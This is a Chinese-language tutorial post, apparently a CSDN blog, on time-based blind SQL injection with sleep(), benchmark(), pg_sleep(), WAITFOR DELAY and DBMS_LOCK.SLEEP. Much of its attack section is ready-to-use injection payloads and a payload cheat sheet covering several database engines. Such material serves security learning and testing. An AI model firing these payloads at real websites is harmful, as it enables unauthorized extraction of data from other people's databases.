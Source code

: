 # 原创
：  【sql注入-延时注入】sleep()、benchmark()函数 延时注入

# 【sql注入-延时注入】sleep()、benchmark()函数 延时注入

**目录**

[sleep()、benchmark()延时注入](#extractvalue%28%29%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5)

[一、语法介绍：](#%E4%B8%80%E3%80%81%E8%AF%AD%E6%B3%95%E4%BB%8B%E7%BB%8D%EF%BC%9A)

[二、延时注入](#%E4%BA%8C%E3%80%81%E6%8A%A5%E9%94%99%E5%8E%9F%E5%9B%A0)

[三、不同数据库](#%E4%B8%89%E3%80%81%E4%B8%8D%E5%90%8C%E6%95%B0%E6%8D%AE%E5%BA%93)

[网络安全小圈子](#%E4%B8%89%E3%80%81%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E5%B0%8F%E5%9C%88%E5%AD%90)

---


## sleep()、benchmark()延时注入

### 一、语法介绍：

版本：

sleep()    MySQL&gt;5.7.8

benchmark()  MySQL&gt;5.7.5

---


语法：

 

---


使用：

```
SELECT SLEEP(10);
```

延迟10s

 

```
SELECT BENCHMARK(1000000, SHA1('Hello World'));
```

查询将会执行100万次SHA1哈希算法计算，并返回结果（别瞎搞）

然后我又多加了一个0

 

---


---


### 二、延时注入

if示例：

加上判断函数if()

if(a,b,c)，如果a的值为true，则返回b的值，如果a的值为false，则返回c的值

```
?id=1’ and if ((ascii(substr(database(),0,1))&gt;100),sleep(10),1) --+

sleep(if(database()="security",10,0))
```

```
if(now()=sysdate(),sleep(length(database())),0)

//now(): 这是MySQL的一个内置函数，返回当前日期和时间。

//sysdate(): 这也是MySQL的一个内置函数，返回系统日期和时间。

//length(database()): 这是一个内置函数，返回当前数据库名的长度。

//sleep(): 这是MySQL的一个内置函数，用于在执行语句时暂停指定的秒数。

```

代码的逻辑：

如果now()返回的当前日期和时间与sysdate()返回的系统日期和时间相等（即条件成立），<br/> 那么执行sleep(length(database()))函数，即暂停秒数等于当前数据库名长度的时间，<br/> 否则返回0

---


case when示例

```
CASE WHEN condition1 THEN result1
WHEN condition2 THEN result2
ELSE result3
END
```

其中，condition1 和 condition2 是条件表达式，result1、result2 和 result3 是根据条件表达式返回的结果。如果所有条件都不满足，则返回 result3

```
'%3bselect case when (1=1) then sleep(10) else sleep(0) end --
```

这是一个条件语句，用于在查询中执行延时函数 sleep()。如果条件 (1=1) 成立，将执行 sleep(10) 函数，即暂停 10 秒钟；否则执行 sleep(0) 函数，即不进行延时

---


payload：

```
' OR SLEEP(5)#

' OR BENCHMARK(1000000,SHA1('test'))#

if(now()=sysdate(),sleep(length(database())),0)

'%3bselect case when (1=1) then pg_sleep(10) else pg_sleep(0) end --
```

---


### 三、不同数据库
1.  MySQL的`SLEEP()`函数：<br/>    - 函数作用：让数据库休眠指定的时间（以秒为单位）。<br/>    - Payload示例：`' OR SLEEP(5) --` 1.  PostgreSQL的`pg_sleep()`函数：<br/>    - 函数作用：让数据库休眠指定的时间（以秒为单位）。<br/>    - Payload示例：`' OR pg_sleep(5) --` 1.  Microsoft SQL Server的`WAITFOR DELAY`语句：<br/>    - 语句作用：让数据库休眠指定的时间（以毫秒为单位）。<br/>    - Payload示例：`' OR WAITFOR DELAY '0:0:5' --` 1.  Oracle的`DBMS_LOCK.SLEEP()`函数：<br/>    - 函数作用：让数据库休眠指定的时间（以秒为单位）。<br/>    - Payload示例：`' OR DBMS_LOCK.SLEEP(5) --` 
---


---


## 网络安全小圈子

[README.md · 书半生/网络安全知识体系-实战中心 - 码云 - 开源中国 (gitee.com)正在上传…重新上传取消https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md<img alt="icon-default.png?t=N658" src="https://csdnimg.cn/release/blog_editor_html/release2.3.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N658"/>https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md](https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md)

[GitHub - BLACKxZONE/Treasure_knowledge正在上传…重新上传取消https://github.com/BLACKxZONE/Treasure_knowledge<img alt="icon-default.png?t=N658" src="https://csdnimg.cn/release/blog_editor_html/release2.3.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N658"/>https://github.com/BLACKxZONE/Treasure_knowledge](https://github.com/BLACKxZONE/Treasure_knowledge)
